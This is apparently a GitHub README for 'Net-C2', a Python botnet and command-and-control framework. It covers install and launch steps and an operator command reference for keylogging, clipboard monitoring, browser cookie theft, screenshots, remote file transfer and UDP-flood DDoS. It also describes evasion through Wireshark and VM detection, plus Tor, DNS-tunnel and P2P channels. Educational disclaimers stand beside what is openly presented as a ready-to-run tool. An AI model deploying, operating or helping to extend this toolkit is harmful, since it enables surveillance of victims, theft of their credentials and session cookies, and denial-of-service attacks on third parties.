

<div align="center">
  <h1>Net‑C2</h1>
  <i>[Flexible and Powerful Botnet Tool]</i>
</div>

# Net-C2, My Biggest and Best Project

> **This is for educational purposes only ⚠️** - Abuse of this project is prohibited. I am not responsible for this.

[](https://python.org)
[](LICENSE)
[](https://github.com)
[](https://github.com)

## 📋 Contents

- [Features](#-features)
- [Architecture](#️-architecture)
- [Installation](#-installation)
- [Usage](#-usage)
- [Security Features](#-security-features)
- [Web Dashboard](#-web-dashboard)
- [Command Reference](#-command-reference)
- [Screenshots](#️-screenshots)
- [FAQ](#-faq)
- [License and Usage](#-license-and-usage)

## 🚀 Features

### 🔐 Security and Encryption
- **AES-256-CBC** encryption system
- **4 Layer** encryption system
- **Anti-Analysis** systems (Wireshark detection)
- **Tor Network** support
- **IPv6** and **IPv4** dual-stack support
- **DNS Tunneling** support
- **P2P Network** fallback system

### 🤖 Bot Features
- **Cross-Platform** support (Windows, Linux, macOS)
- **Real-time Keylogger** system
- **Clipboard** monitoring and data theft
- **Browser Cookie** stealing
- **File Upload/Download** system
- **Process Monitoring** (real CPU usage)
- **Screenshot** capture
- **System Information** gathering
- **VM Detection** (Virtual Machine Area Detection)
- **WireShark Detection** System

### 📊 Monitoring and Analysis
- **Real-time bot monitoring**
- **System information gathering**
- **Network mapping** capabilities
- **Process monitoring**
- **VM detection** systems
- **Performance metrics**

### ⚔️ Attack Capabilities
- **DDoS attacks** (UDP flood)
- **Customizable parameters** (duration, threads)
- **Educational use only**
- **Safety limitations** built-in

### 🌐 Web Dashboard
- **Modern Flask** based web interface
- **Real-time** bot status monitoring
- **Interactive** command sending
- **Security Alerts** display
- **P2P Network** status
- **Tor/Clearnet** bot separation
- **Responsive** design
- **Remote Terminal Control** system

### 🔍 Advanced Features
- **Network Mapping** (network discovery)
- **CVE Exploits** integration
- **Multi-threaded** operations
- **Automatic reconnection** system
- **Environment variable** support
- **Comprehensive help** system

## 🏗️ Architecture

```
Botnet/
├── Server.py              # C2 Server (Main Control)
├── Net.py                 # Bot Client
├── Kserver.py             # Keylogger Server (Separate)
├── web_dashboard.py       # Web Dashboard
├── clipboard_data/        # Clipboard Data
├── cookies/               # Browser Cookies
├── downloads/             # Downloaded Files
├── Bot Guide.txt          # AI/ML Steal Guide For future versions
└── README.md              
```

### 🔄 Communication Flow



## 📦 Installation

### Requirements

```bash
# Python 3.8+ required
python3 --version

# Required packages
pip install pycryptodome pynput flask requests stem psutil browser-cookie3 pillow
```

### Quick Installation

```bash
# Clone repository
git clone https://github.com/yourusername/botnet-framework.git
cd botnet-framework

# Install required packages
pip install -r requirements.txt
```

### requirements.txt

```txt
pycryptodome>=3.15.0
pynput>=1.7.6
flask>=2.0.0
flask-socketio>=5.0.0
requests>=2.25.0
stem>=1.8.0
psutil>=5.8.0
browser-cookie3>=0.15.0
dnslib>=0.9.0
pillow>=8.0.0
```

## 🎯 Usage

### 1. Start C2 Server

```bash
python3 Server.py
```

**Default Settings:**
- Host: `0.0.0.0`
- Port: `8080`
- Encryption: `AES-256-CBC`

### 2. Start Keylogger Server (Optional)

```bash
python3 Kserver.py
```

**Default Settings:**
- Host: `0.0.0.0`
- Port: `8081`

### 3. Start Bot

```bash
python3 Net.py
```

**Environment Variables:**
```bash
export C2_HOST=192.168.1.100
export C2_PORT=8080
python3 Net.py
```

### 4. Start Web Dashboard

```bash
# From Server.py
web start

# Access: http://localhost:5500
```

## 🔒 Security Features

### 🔐 Encryption System

- **AES-256-CBC**: Main encryption layer
- **Automatic key generation**: Secure key generation
- **Encrypted communication**: All communication encrypted

### 🛡️ Anti-Analysis System

```python
# Wireshark tespiti
if self.check_for_analysis_tools():
    print("[!] Analysis tool detected!")
    self.send_analysis_alert()
```

### 🔄 Security Rules

1. **Rule #1**: C2 Connected → P2P OFF
2. **Rule #2**: Analysis Tool Detected → Security Mode
3. **Rule #3**: C2 Failed → Fallback Channels

### 🌐 Tor Network Support

```bash
# Tor commands
tor enable    # Enable Tor
tor disable   # Disable Tor
tor status    # Check Tor status
tor bots      # List bots connected via Tor
```

### 🔍 DNS Tunneling

```bash
# DNS Tunneling commands
dns_tunnel enable example.com    # Enable DNS tunneling
dns_tunnel disable              # Disable DNS tunneling
dns_tunnel status              # DNS tunneling status
```

## 🌐 Web Dashboard

### 📊 Main Features

- **Real-time Bot Monitoring**: Live bot status tracking
- **Interactive Command Interface**: Web-based command sending
- **Security Alerts Display**: Security alerts visualization
- **Modern UI**: Cyberpunk themed modern interface
- **Responsive Design**: Mobile-friendly design

### 🎨 Interface Features

- **Dark Theme**: Eye-friendly dark theme
- **Purple Color Scheme**: Purple color palette
- **Real-time Updates**: Instant data updates
- **Interactive Cards**: Interactive card design

## 📋 Command Reference

### 🔧 Basic Commands

```bash
# Bot list
list

# Bot information
server

# Send command
cmd <bot_id> <command>

# Broadcast command
broadcast <command>

# Process list (with real CPU usage)
processes <bot_id>

# System information
sysinfo <bot_id>

# VM check
isvm <bot_id>
```

### 📁 File Operations

```bash
# File upload
upload <bot_id> <local_file> [remote_name]

# File download
download <bot_id> <remote_file> [local_path]

# Screenshot (single)
screenshot <bot_id>

# Automatic screenshots (every 10 seconds)
ss start <bot_id>
ss stop <bot_id>

# DDoS attacks 
ddos start <bot_id> <target_ip> # Optional [--duration 30] [--threads 50]
ddos stop <bot_id>
```

### 🔍 Data Collection

```bash
# Cookie stealing
cookies <bot_id>

# Clipboard start/stop
copy start <bot_id>
copy stop <bot_id>

# Keylogger start/stop
keylogger start <bot_id>
keylogger stop <bot_id>
```

### 🌐 Network Commands

```bash
# Network mapping
network_map start <bot_id> [scope]
network_map status <bot_id>
network_map stop <bot_id>
```

### 🔍 Security Commands

```bash
# Security status
security

# View alerts
alerts

# P2P status
p2p status
```

### ❓ Help System

```bash
# Help for any command
<command> ?

# Examples:
processes ?
keylogger ?
upload ?
tor ?
```

## 🖼️ Screenshots

### C2 Server Terminal
```
╔══════════════════════════════════════════════════════════════════════════════╗
║                    [Flexible and Powerful Botnet Tool]                       ║
║  ___   __    ______   _________         ______   _____                       ║
║ /__/\ /__/\ /_____/\ /________/\       /_____/\ /_____/\                     ║
║ \::\_\\  \ \\::::_\/_\__....__\/_______\:::__\/ \:::_:\ \                    ║
║  \:. `-\  \ \\:\/___/\  \::\ \ /______/\\:\ \  __   _\:\|                    ║
║   \:. _    \ \\::___\/_  \::\ \\__::::\/ \:\ \/_/\ /::_/__                   ║
║    \. \`-\  \ \\:\____/\  \::\ \          \:\_\ \ \\:\____/\                 ║
║     \__\/ \__\/ \_____\/   \__\/           \_____\/ \_____\/                 ║
║                                By: Zer0 Crypt0                               ║
║                                     version: 1.0.0                           ║
╚══════════════════════════════════════════════════════════════════════════════╝

[+] Server started on 0.0.0.0:8080
[+] Keylogger server started on 192.168.237.191:8081
[+] New bot connected: Fatihs-MacBook-Pro.local-xxxxx (192.168.237.191)
```

### Web Dashboard
- Modern cyberpunk themed interface
- Real-time bot status
- Interactive command panel
- Security alerts
- P2P network status

## 🔧 Advanced Features

### 🔄 P2P Network

```python
# Start P2P network
p2p_result = bot.start_p2p()
print(f"P2P Port: {bot.p2p_port}")
print(f"IPv6 Support: {bot.ipv6_enabled}")
```

### 📊 Process Monitoring

```python
# Process list with real CPU usage
processes = bot.get_processes_with_real_cpu()
```

### 🔍 System Analysis

```python
# Detailed system analysis
system_info = bot.gather_system_info()
vm_check = bot.check_vm_environment()
```

## ❓ FAQ

### 🚀 Getting Started

**What is the difference between historical botnets?**

- There is no DGA in the `Net.py` code. and I don't know how to add it. 🤔

- `Evasion.` Escaping antivirus is very, very difficult in `2025`.
There used to be only `signature-based` antiviruses,
but now there are `signature-based` + `heuristic-based` antiviruses.

- `Propagation Systems(like a Worm).` I haven't fully understood how viruses spread through ports
like `SMB, RDP, and SSH`. Viruses like `WannaCry` are professionally written. 🤔

- `Persistence Systems.` I added this before, but it didn't
go as planned, so I had to remove it. I don't know to how to add it. 🤔

**How do I start the botnet system?**

Follow these steps in order:
1. `python3 Server.py` (Main C2 server)
2. `python3 Kserver.py` (Optional - for keylogger)
3. `python3 Net.py` (Bot client)
4. `web start` (Optional - Web dashboard)

**How do I use environment variables for connection?**

Set them before running the bot:
```bash
export C2_HOST=192.168.1.100
export C2_PORT=8080
python3 Net.py
```

### 🔧 Troubleshooting

**Bot is not connecting to the server. What should I do?**

Check these common issues:
- Ensure Server.py is running first
- Check if firewall is blocking the connection
- Verify C2_HOST and C2_PORT environment variables
- Make sure both bot and server are on the same network

**Web Dashboard is not working. How to fix?**

- Start the web dashboard with `web start` command in Server.py
- Access it at `http://your_computer_ip:5500`
- Make sure Flask and Flask-SocketIO are installed
- Check if port 5500 is available

### 🔑 Keylogger & Screenshots

**How do I take screenshots from bots?**

Use these commands:
- `screenshot <bot_id>` - Single screenshot
- `ss start <bot_id>` - Automatic screenshots every 10 seconds
- `ss stop <bot_id>` - Stop automatic screenshots
- Screenshots are saved to `ScreenS/` folder

**How do I use DDoS attacks?**

```bash
# Basic DDoS attack (30 seconds, 50 threads)
ddos start Bot-123 192.168.1.100

# Custom duration and threads
ddos start Bot-123 192.168.1.100 --duration 60 --threads 25

# Stop DDoS attack
ddos stop Bot-123
```
- Max duration: 300 seconds
- Max threads: 100
- Attack type: UDP flood on port 80

### 🌐 Network & Security

**How do I enable Tor network?**

- Install Tor on your system
- Use `tor enable` command in Server.py
- Bots will automatically use Tor proxy when available
- Check status with `tor status`

**What files and folders are created by the system?**

The system creates these folders:
- `clipboard_data/` - Clipboard logs
- `cookies/` - Stolen browser cookies
- `downloads/` - Downloaded files from bots
- `ScreenS/` - Screenshots from bots

### 💡 Usage Tips

**How do I see help for specific commands?**

Add `?` after any command:
```bash
processes ?
keylogger ?
upload ?
ss ?
```

### ⚖️ Legal & Ethics

**Is this legal to use?**

- ⚠️ **Educational purposes only**
- ✅ Use only on your own systems
- ❌ Do not use on systems you don't own
- ❌ Malicious use is prohibited
- Check your local laws before using

## 🚨 Security Warnings

### ⚠️ Important Notes

1. **This project is for educational and research purposes only**
2. **Malicious use is strictly prohibited**
3. **User accepts all responsibility**
4. **Must be used within legal boundaries**
5. **Test only on your own systems**

### 🔒 Security Measures

- All communication encrypted with AES-256
- Anti-analysis systems active
- VM detection available
- Security rules work automatically

## 📄 License and Usage

### 📜 Copyright

**This code belongs entirely to Zer0 Crypt0(so Me).** 
- Copying and publishing this Project is prohibited.
You can edit it to your liking, but do not copy it exactly.


### ✅ Permitted Uses

- ✅ **Educational** use
- ✅ **Research** use  
- ✅ **Personal learning** use
- ✅ **Security testing** (only on your own systems)
- ✅ **Code review** and learning
- ✅ **Forking** and development

### ❌ Strictly Prohibited Uses

- ❌ **Publishing this code claiming "I made it"**
- ❌ **Removing copyright information**
- ❌ **Commercial use** (without permission)
- ❌ **Malicious use**
- ❌ **Attacking others' systems**
- ❌ **Illegal activities**

### 🔒 Terms of Use

```
Shared as open source under MIT License.

HOWEVER:
- Code owner: Fatih Emre
- Claiming this code as your own work is PROHIBITED
- Copyright information must be preserved
- Malicious use is prohibited
```

## 🤝 Contributing

### 📝 Contribution Process

1. Fork the repository
2. Create feature branch (`git checkout -b feature/NewFeature`)
3. Commit your changes (`git commit -m 'Add new feature'`)
4. Push to branch (`git push origin feature/NewFeature`)
5. Open Pull Request
6. If you would like to collaborate, you can
write on Instagram.

### 🐛 Bug Report

Use GitHub Issues for bug reports:

```markdown
**Bug Description:**
- What happened?
- Expected behavior?
- Actual behavior?

**System Information:**
- OS: [Windows/Linux/macOS]
- Python Version: [3.8+]
- Botnet Version: [2.0]
```

## 🙏 Thanks

- **Python Community** - For amazing libraries
- **Security Researchers** - For security research
- **Open Source Community** - For inspiration and motivation
- **And to everyone who supports me 🫂**

## 📞 Contact

- **GitHub:** Through this repository
- **Issues:** Use GitHub Issues
- **Discussions:** GitHub Discussions
- **Instagram:** @zer0crypt0

## 🌏 Social Networks

- **Instagram:** @zer0crypt0
- **YouTube:** @FatihEmreZC
- **Medium:** @fgedik754
- **BlueSky:** @zer0crypt0.bsky.social

---

<div align="center">

**⭐ If you liked this project, don't forget to give it a star! ⭐**

**🔥 This code belongs entirely to me - Fatih Emre 🔥**

*Developed for educational purposes. Use responsibly.*

**Thank you again to everyone who supports me**

</div>
